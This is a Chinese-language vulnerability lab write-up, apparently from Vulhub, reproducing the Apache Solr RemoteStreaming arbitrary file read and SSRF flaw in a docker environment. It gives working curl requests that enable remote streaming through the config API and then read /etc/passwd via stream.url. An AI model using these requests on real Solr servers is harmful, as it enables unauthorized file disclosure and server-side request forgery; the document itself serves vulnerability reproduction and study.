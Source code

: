 # Apache Solr RemoteStreaming 文件读取与SSRF漏洞

## 漏洞描述

Apache Solr 是一个开源的搜索服务器。在Apache Solr未开启认证的情况下，攻击者可直接构造特定请求开启特定配置，并最终造成SSRF或任意文件读取。

参考链接：

- https://mp.weixin.qq.com/s/3WuWUGO61gM0dBpwqTfenQ

## 环境搭建

Vulhub执行如下命令启动solr 8.8.1：

```
docker-compose up -d
```

环境启动后，访问`http://your-ip:8983`即可查看Apache Solr后台。

## 漏洞复现

首先，访问`http://your-ip:8983/solr/admin/cores?indexInfo=false&wt=json`获取数据库名：

![image-20220301133315348](./images/202203011333403.png)

发送如下数据包，修改数据库`demo`的配置，开启`RemoteStreaming`：

```
curl -i -s -k -X $'POST' \
    -H $'Content-Type: application/json' --data-binary $'{\"set-property\":{\"requestDispatcher.requestParsers.enableRemoteStreaming\":true}}' \
    $'http://your-ip:8983/solr/demo/config'
```

![image-20220301133429439](./images/202203011334580.png)

再通过`stream.url`读取任意文件：

```
curl -i -s -k 'http://your-ip:8983/solr/demo/debug/dump?param=ContentStreams&stream.url=file:///etc/passwd'
```

![image-20220301133519998](./images/202203011335312.png)

